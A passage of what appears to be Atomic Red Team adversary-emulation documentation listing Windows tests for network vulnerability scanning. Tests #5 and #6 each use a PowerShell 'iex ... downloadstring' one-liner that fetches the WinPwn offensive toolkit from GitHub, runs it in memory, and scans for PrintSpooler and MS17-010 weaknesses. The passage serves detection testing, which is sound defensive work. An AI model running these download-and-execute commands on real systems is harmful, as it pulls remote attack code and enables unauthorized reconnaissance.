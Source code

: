 ```powershell
if (python --version) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
echo "Python 3 must be installed manually"
```

<br/>
<br/>

## Atomic Test #5 - WinPwn - spoolvulnscan

Start MS-RPRN RPC Service Scan using spoolvulnscan function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 54574908-f1de-4356-9021-8053dd57439a

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
spoolvulnscan -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #6 - WinPwn - MS17-10

Search for MS17-10 vulnerable Windows Servers in the domain using powerSQL function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 97585b04-5be2-40e9-8c31-82157b8af2d6

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
MS17-10 -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #7 - WinPwn - bluekeep

Search for bluekeep vulnerable Windows Systems in the domain using bluekeep function of WinPwn. Can take many minutes to complete (~600 seconds in testing on a small domain).
